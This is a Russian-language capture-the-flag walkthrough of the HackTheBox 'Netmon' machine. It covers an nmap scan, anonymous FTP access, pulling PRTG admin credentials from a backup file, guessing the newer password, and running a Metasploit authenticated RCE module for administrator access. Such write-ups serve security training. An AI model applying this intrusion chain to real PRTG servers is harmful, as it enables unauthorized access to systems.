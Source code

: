 # 🟢 Netmon(Windows, Easy)

![](<../.gitbook/assets/1 (1).png>)

### Содержание:

В самом начале мы сканируем порты и видим, что доступ к ftp открыт через anonymous, также мы сразу же можем прочитать флаг юзера. На 80 порту мы обнаруживаем PRTG Network Monitor. Мы можем найти файл PRTG Configuration.old.bak, где обнаружим следующие данные prtgadmin:PrTg@dmin2018. К сожалению, они не подходят. Выход следующий: это старый файл, т.е. это бэкап, машина вышла в 2019, а в пароле 2018, мы можем попробовать PrTg@dmin2019 в качестве пароля и он подойдет. Затем, мы используем эксплойт из метасплоита, который нам даст удаленный доступ с правами администратора.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV 10.10.10.152 -oN nmap
```

```
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-01-30T22:14:04
|_  start_date: 2022-01-30T22:13:01
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 5m18s, deviation: 0s, median: 5m18s
```

### Получаем флаг юзера и бэкап:

![](<../.gitbook/assets/2 (1) (1).png>)

### Скачиваем и читаем бэкап:

Переходим через ftp по пути /ProgramData/Paessler/PRTG Network Monitor и качаем PRTG Configuration.old.bak:

```
ftp> mget "PRTG Configuration.old.bak"
```

В данном файле мы находим следующие креды:

```
prtgadmin:PrTg@dmin2018
```

### Включаем логику и подбираем пароль:

Пробуем авторизоваться на 80 порту и ничего не получается. Так как PRTG Configuration.old.bak - это старый файл, т.е. это бэкап, машина вышла в 2019, а в пароле 2018, мы можем попробовать PrTg@dmin2019 в качестве пароля и он подойдет.

### Используем эксплоит для получения RCE с правами администратора:

Теперь мы можем использовать данный эксплоит из метасплоита:

```
exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE
```

Настраиваем его так:

![](<../.gitbook/assets/3 (1) (1).png>)

Теперь мы имеем доступ от имени администратора и можем прочитать root.txt:

![](<../.gitbook/assets/4 (1).png>)
